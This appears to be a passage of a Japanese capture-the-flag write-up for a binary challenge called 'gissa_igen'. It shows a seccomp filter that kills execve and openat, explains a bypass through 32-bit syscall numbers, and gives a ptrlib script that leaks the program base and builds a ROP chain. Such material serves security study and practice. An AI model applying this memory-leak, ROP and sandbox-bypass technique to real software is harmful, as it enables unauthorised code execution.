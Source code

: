 ```
 0012: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x15 0x00 0x01 0x00000055  if (A != creat) goto 0016
 0015: 0x06 0x00 0x00 0x00000000  return KILL
 0016: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0018
 0017: 0x06 0x00 0x00 0x00000000  return KILL
 0018: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0020
 0019: 0x06 0x00 0x00 0x00000000  return KILL
 0020: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

openとかも無効にされてますね。
ptraceで回避みたいなのを思いつきましたがforkが禁止されているので、32bitのシステムコールを使いましょう。
0x40000000を足せば利用できます。
起動時にstatしているパスからフラグが`/home/ctf/flag`にあることが分かります。
これをopen, read, writeしてやりましょう。
（ローカルでやってるのでフラグは自分で用意します。）

```python
from ptrlib import *

sock = Process("./gissa_igen")

sock.recvuntil(": ")
sock.sendline("")

# prepare for overread
payload = b'A' * 0x8c
payload += p32(0xa8) # size
sock.recvuntil(": ")
sock.sendline(payload)

_ = input()
# leak proc base
payload = b'A' * 0x8c
payload += p16(0xbeef) # size
payload += p16(0x7fad) # miscnt
payload += b'A' * 8
payload += p64(0x893fffff01010101) # cnt
payload += b'A' * 8
sock.recvuntil(": ")
sock.sendline(payload)
result = sock.recvuntil(" is not right.")
addr_main_ret = u64(result.rstrip(b" is not right.")[-6:])
proc_base = addr_main_ret - 0xbc5
dump("proc base = " + hex(proc_base))

rop_pop_rax_rdi_rsi = proc_base + 0xc21
rop_pop_rdx_r9_r8_rdi_rsi = proc_base + 0xc1d
rop_syscall = proc_base + 0xbd9

# get the shell!
payload = b'A' * 0x8c
payload += p32(0xdeadbeef) # size
payload += b'A' * 0x18

payload += p64(rop_pop_rdx_r9_r8_rdi_rsi)
payload += p64(16)                   # count
payload += b'A' * (8 * 4)
payload += p64(rop_pop_rax_rdi_rsi)
payload += p64(0)                    # SYS_read
payload += p64(0)                    # stdin
payload += p64(proc_base + 0x202000) # buf
payload += p64(rop_syscall)          # syscall; ret;
```